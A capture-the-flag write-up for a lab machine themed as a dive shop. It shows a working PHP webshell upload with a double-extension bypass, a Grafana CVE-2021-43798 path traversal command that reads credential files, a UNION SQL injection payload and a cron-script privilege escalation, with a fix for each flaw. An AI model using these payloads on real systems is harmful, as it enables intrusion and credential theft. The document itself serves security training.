





# DeepDive into Fraud CTF - Writeup
**Author** : Miranda Hampton
**Date**: 23 June 2026
**Difficulty**: Medium
**IP**: 192.168.56.101
**Time spent**: [X] hours

---
## Overview
DeepDive into Fraud is a Medium-difficulty Linux machine themed around a dive shop falsifying safety records to maintain a high certification rating. Initial access is gained by exploiting a client-side only file upload validation on the public website, uploading a PHP webshell via double-extension bypass. Then an internal Grafana instance vulnerable to CVE-2021-43798 exposes credentials that unlock a staff portal, where SQL injection yields SSH credentials. Lastly, privilege escalation via a world-writable cron script executed by root.

---
## Reconnaissance
### Nmap Scan
**Goal**: Map the attack surface. Find all open ports and identify service versions.
**Command**:
```bash
nmap -sV -sC -Pn -oN scan.txt 192.168.56.101
```
**Flag rationale**:
- `-sV`: Version detection. Knowing exact software versions is essential for
vulnerability research.
- `-sC`: Run default NSE scripts. Catches low-hanging fruit like anonymous FTP, HTTP page titles, SSL certificate details.
- `-Pn` : Treat all hosts as online -- skip host discovery
- `-oN`: Save output to file. Always save scan results. You will need them later. **Output** (relevant excerpt):
```
Not shown: 997 filtered ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.15 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: BlueWater Dive Shop
8080/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: BlueWater Staff Portal

```
**Interpretation**:
- Three services: SSH (22), HTTP (80), HTTP (8080)
- SSH: no known unauthenticated CVEs. Useful only if credentials appear elsewhere.
- Port 80 is a public-facing dive shop website. Port 8080 is a staff portal — login protected, noted for later.

**Decision**: Port 80 is the primary attack surface. Port 8080 requires credentials we don't have yet.

---
## Enumeration
### Gobuster DIrectory Scan
**Goal**: Discover paths not linked from the visible page. Targets include hidden admin areas, backup files, and unusual directories.
**Command**:
```
gobuster -u http://192.168.56.101/ -w /usr/share/dirb/wordlists/common.txt -q -o logs/gobuster.txt
```
**Flag rationale:**
-   `-u`: Target URL.
-   `-w`: Wordlist.
-   `-q`: Quiet mode.
-   `-o`: Save output to file.

**Output**:
```
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/.hta (Status: 403)
/index.html (Status: 200)
/server-status (Status: 403)
/uploads (Status: 301)
/wp-content (Status: 301)
/wp-admin (Status: 301)
```

**Interpretation**: 
- `/uploads` is a non-standard directory and interesting. If users can upload files here this could be an entry point.
- `/wp-admin` and `/wp-content` look like WordPress directories. Investigated briefly, confirmed dead end. (Rabbit hole)
- Worth noting `index.html`. Static page where the site lives

**Decision:** `/uploads` is priority. Scan index.html to find an upload form. 

### Manual Site Browsing

**Goal**: Find the upload form that writes to `/uploads/`.

**Command**:
```
curl -s http://192.168.56.101/ | grep -i "href\|action" | grep "\.php"
```

**Output**: The customer reviews page at `/reviews.php` contains a photo upload form for customers to submit dive photos.

**Decision**: `/reviews.php` is the upload entry point. Test for file upload vulnerability.

---
## Exploitation
### CWE-434 - Unrestricted Upload of File with Dangerous Type
**Vulnerability background**: The product allows the upload or transfer of dangerous file types that are automatically processed within its environment. The photo upload form on `reviews.php` performs file type validation in JavaScript only. There is no server-side check on file content or extension. Apache is configured to execute PHP files regardless of trailing extensions, meaning a file named `shell.php.jpg` will be executed as PHP. 

**Command**:
```
echo '<?php system($_POST["c"]); ?>' > /tmp/shell.php.jpg
curl -s -X POST http://192.168.56.101/reviews.php \
    -F "photo=@/tmp/shell.php.jpg" > /dev/null
```
**Verification**:
```
curl -s -X POST http://192.168.56.101/uploads/shell.php.jpg \
    --data-urlencode "c=whoami"
```

**Output**:
```
www-data
```


---
## Post-Exploitation Enumeration
### Internal Service Discovery
**Goal**: Identify services running internally that were not visible in the nmap scan.
```
curl -s -X POST http://192.168.56.101/uploads/shell.php.jpg --data-urlencode "c=ss -tlnp 2>/dev/null"
```
**Output**:
```
State  Recv-Q Send-Q Local Address:Port  Peer Address:PortProcess
LISTEN 0      151        127.0.0.1:3306       0.0.0.0:*          
LISTEN 0      70         127.0.0.1:33060      0.0.0.0:*          
LISTEN 0      128          0.0.0.0:22         0.0.0.0:*          
LISTEN 0      4096   127.0.0.53%lo:53         0.0.0.0:*          
LISTEN 0      128        127.0.0.1:3000       0.0.0.0:*          
LISTEN 0      511                *:80               *:*          
LISTEN 0      128             [::]:22            [::]:*          
LISTEN 0      511                *:8080             *:* 
```
**Interpretation:** 
- `127.0.0.1:3000` - Grafana dashboard
- `127.0.0.1:3306` - MySQL
- Both were invisible to nmap because they are not externally exposed.

**Decision**: Grafana feels more niche, check the version and research CVEs.

### Grafana Version FInding

**Goal**: Identify the exact Grafana version to research known CVEs.

**Command**:
```
curl -s -X POST http://192.168.56.101/uploads/shell.php.jpg \
    --data-urlencode "c=curl -s http://127.0.0.1:3000/api/health"
```

**Output**:
```
{
  "commit": "d7f71e9eae",
  "database": "ok",
  "version": "8.2.0"
}
```
**Interpretation**: Grafana 8.2.0 is running. Searching this version on CVE databases surfaces **CVE-2021-43798**.

**Decision**: Exploit CVE-2021-43798 to read sensitive files from the server.

---
## CVE-2021-43798 -- Grafana path traversal

**Vulnerability background**: Grafana is an open-source platform for monitoring and observability. Grafana versions 8.0.0-beta1 through 8.3.0 (except for patched versions) iss vulnerable to directory traversal, allowing access to local files. Grafana 8.2.0 fails to sanitize path traversal sequences in plugin asset requests. An unauthenticated attacker can read arbitrary files from the server filesystem by requesting a URL under `/public/plugins/<any_plugin>/` with `../` sequences that escape the plugin directory.
```
curl -s -X POST http://192.168.56.101/uploads/shell.php.jpg --data-urlencode "c=curl -s --path-as-is 'http://127.0.0.1:3000/public/plugins/alertlist/../../../../../../../../etc/grafana/grafana.ini'"
```
**Output**:
```
[server]
http_addr = 127.0.0.1
http_port = 3000
domain = localhost
router_logging = true

[database]
type = mysql
host = 127.0.0.1:3306
name = grafana
user = grafana_user
password = Gr@f@n@DB2023!

[security]
admin_user = admin
admin_password = BlueWater2023!

[bluewater_staff_portal]
url = http://localhost:8080
user = admin
password = BlueWater2023!
```
**Interpretation**: The `[security]` section of `grafana.ini` contains plaintext admin credentials. These are the credentials for the staff portal on port 8080.

**Decision**: Log into the staff portal on port 8080 with `admin / BlueWater2023!`.



---
## Staff Portal + SQL Injection (CWE-89)

### Staff Portal Login
**Goal**: Access the internal staff record management tool using credentials from grafana.ini.

**Command**:
```
curl -s -c cookies.txt -d "username=admin&password=BlueWater2023!" -L http://192.168.56.101:8080/login.php > /dev/null
```

**Interpretation**: Login succeeds and sets a session cookie. The staff portal is a dive record management tool that allows staff to search and edit diver records. There is a search field that accepts a diver name.

### SQL Injection on Search

**Goal**: Test the search field for SQL injection and get credentials from the staff table.

**Verification**: Testing the search field with a single quote `'` returns a MySQL error. The input is being concatenated directly into a SQL query without parameterization.

**Command**:
```
curl -s -b cookies.txt --data-urlencode "diver_name=' UNION SELECT id,username,password,role,ssh_password FROM staff-- -" http://192.168.56.101:8080/search.php
```
**Output** (relevant excerpt):
```
<td>divemaster</td>
<td>D1veM@ster2023!</td>
```


**Interpretation**: The `staff` table from `bluewater_internal` is returned in the response. The `divemaster` account has an SSH password stored in plaintext.

**Decision**: SSH into the machine as `divemaster`.

----------

## SSH + User Flag

### SSH Login as Divemaster

**Goal**: Use the credentials from SQL injection to gain an interactive shell.

**Command**:
```
ssh-keygen -f "$HOME/.ssh/known_hosts" -R "192.168.56.101" > /dev/null 2>&1
sshpass -p 'D1veM@ster2023!' ssh -o StrictHostKeyChecking=no divemaster@192.168.56.101
```

**Output**:

```
Welcome to BlueWater Dive Shop
Authorized access only. All activity is logged.
divemaster@bluewater:~$
```

### User Flag
```
cat ~/user.txt
```
**Output**:
```
FF{w3lc0m3_t0_blu3w4t3r_1nt3rn4l}
```



----------

## Privilege Escalation

### Cron Job Enumeration

**Goal**: Find a privilege escalation vector from the divemaster account.

**Commands**:
```
sudo -l
ls -la /opt/
cat /etc/crontab
```
**Output**:
```
# sudo -l
divemaster is not allowed to run sudo on bluewater.

# ls -la /opt/
-rwxrwxrwx 1 root root  sync_logs.py

# /etc/crontab
*/5 * * * * root python3 /opt/sync_logs.py
```

**Interpretation**:
-   No sudo rights.
-   `/opt/sync_logs.py` is owned by root and executed by root via cron every 5 minutes, but it is world-writable (`-rwxrwxrwx`). Any user on the system can modify it.
-   Reading the script reveals a variable `OUTPUT_REPORT = 0`. When set to `1`, the script compares the public `dive_logs` database against the real `bluewater_internal` records and writes the comparison result — including the root flag — to `/var/log/bluewater/sync.log`.

**Decision**: Flip `OUTPUT_REPORT` to `1` and wait for root cron to execute the script.

### CWE-732: Incorrect Permission Assignment for Critical Resource
**Vulnerability background**: The product specifies permissions for a security-critical resource in a way that allows that resource to be read or modified by unintended actors. A script owned by root and executed by root via cron must not be writable by unprivileged users. Any modification to the script will be executed with root privileges on the next cron run. 

**Command**:
```
python3 -c "
f=open('/opt/sync_logs.py','r+')
c=f.read().replace('OUTPUT_REPORT = 0','OUTPUT_REPORT = 1')
f.seek(0); f.write(c); f.truncate()
f.close()
"
```
**Verification**:
```
grep OUTPUT_REPORT /opt/sync_logs.py
# OUTPUT_REPORT = 1
```
**Decision**: Wait up to 5 minutes for the next cron execution.

----------

## Root Flag

### Reading the Sync Log

**Goal**: Confirm root executed the modified script and retrieve the root flag.

**Command**:
```
watch -n 15 cat /var/log/bluewater/sync.log
```

**Output** (after cron runs):

```
Sync complete. 6 record(s) processed.
Data from 6 divers has been modified. FF{th3_d4t4_n3v3r_l13s}
```



## Summary
**Flags captured**: 2/2
**Total time**: ~3-5 hours
**Difficulty assessment**: Medium (as designed)

### Attack Chain

| Step | Action | Result | MITRE ATT&CK |
|------|--------|--------|--------------|
| 1 | nmap -sV -sC -Pn | 3 services found | T1046 |
| 2 | gobuster | /uploads discovered | T1083 |
| 3 | CWE-434 double-extension upload | Webshell as www-data | T1190, T1505.003 |
| 4 | ss -tlnp via webshell | Grafana on localhost:3000 | T1049 |
| 5 | CVE-2021-43798 path traversal | grafana.ini → staff portal creds | T1552.001 |
| 6 | Staff portal login | Access to record search tool | T1078 |
| 7 | CWE-89 UNION SQLi | divemaster SSH credentials | T1190 |
| 8 | SSH as divemaster | User flag | T1078 |
| 9 | World-writable cron script | OUTPUT_REPORT flipped | T1053.003 |
| 10 | Cron executes as root | Root flag in sync.log | T1548 |

### Key Vulnerabilities

1.  **CWE-434: Unrestricted Upload of File with Dangerous Type**: Client-side only validation allowed a PHP webshell to be uploaded and executed. Fix: validate file type server-side, restrict PHP execution in the uploads directory.
2.  **CVE-2021-43798 Grafana Path Traversal**: An unpatched internal Grafana instance exposed `grafana.ini` containing plaintext credentials. Fix: keep monitoring tools patched even when internal-only, store secrets outside config files.
3.  **CWE-89: Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection')**: Unparameterized query in `search.php` allowed UNION injection into a privileged table. Fix: use prepared statements.
4.  **CWE-732: Incorrect Permission Assignment for Critical Resource**: A root-owned script allowed any user on the system to modify code executed as root. Fix: `chmod 700 /opt/sync_logs.py`, owned by root only.

### Lessons Learned
1. The most time consuming part was writing the curl requests through the webshell that was implanted into the uplaods folder. As well as writing the cron job, since had to wait until it executed to see results. 
2. I am a security novice so almost everything is new to me. I have learned about SQLi before, but everything else was new. That's why i think it was helpful to find the vulnerability first, and then build around it. 
3. This box reinforces how a single unpatched internal tool can collapse an otherwise reasonable security posture. It's important to keep secondary services up to date, and to trust their developers are as well.

